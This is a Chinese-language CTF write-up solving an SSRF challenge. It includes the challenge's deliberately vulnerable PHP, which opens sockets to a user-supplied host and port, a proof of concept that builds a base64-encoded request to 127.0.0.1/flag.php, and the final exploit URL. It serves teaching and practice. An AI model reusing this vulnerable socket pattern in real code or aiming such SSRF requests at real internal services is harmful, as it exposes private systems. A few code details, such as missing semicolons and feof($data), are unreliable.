

@[TOC](文章目录)

# 一、前言
今天在打CTF的时候碰到了一道有关ssrf漏洞的题，以前做的也不多，今天就来记录一下
# 二、相关知识
先来简单的介绍一下ssrf漏洞<br />
ssrf中文名叫做`服务端请求伪造`<br />
正常的处理请求过程是：用户发送请求-->服务端处理请求-->服务端像客户端返回请求<br />
该漏洞产生的原因是在第一步的时候，发送一个恶意url的请求，这个url指令是让服务器查询自己内部数据库，当服务端处理这个恶意的请求后，就会将查询后的结果发送给客户端<br />
# 三、题目复现
## 1.题目名称
[HNCTF 2022 WEEK2]ez_ssrf
## 2.解题过程
先用dirsearch扫描一下

发现了/flag.php这个目录，访问一下这个目录

这句话就暗示了在本地使用<br />
另外题目上有提示，拼接一下路径index.php。<br />
得到本题的php源码
```
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
die();
}
else {
fwrite($fp,$data);
while(!feof($data))
{
echo fgets($fp,128);
}
fclose($fp);
}
```
`fsockopen函数`的作用就是打开一个网址，此时ssrf漏洞已经显现出来了<br />
我们就开始构造POC吧<br />
记住POC几个必须有的参数：connection,host
```declarative
<?php
$out = "GET /flag.php HTTP/1.1\r\n"
$out .= "HOST: 127.0.0.1\r\n"
$out .= "Connection:close\r\n"
echo base64_encode($out)
?>
```
GET后面的HTTP/1.1表示HTTP协议的版本,`\r\n`表示换行<br />
`Connection:close`表示将连接关闭。在HTTP/1.1协议中，每一段连接都会保证keep-alive,以保证可以复用。但我们这里只需要执行请求后，关闭就好<br />
`.=`表示将字符串拼接运算符<br />
举一个例子
```declarative
$a = "hello";
$a .= "world";
echo $a;    //输出hello world
```
运行一下，得出data的参数值，随后构造URL为<br />
`/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=`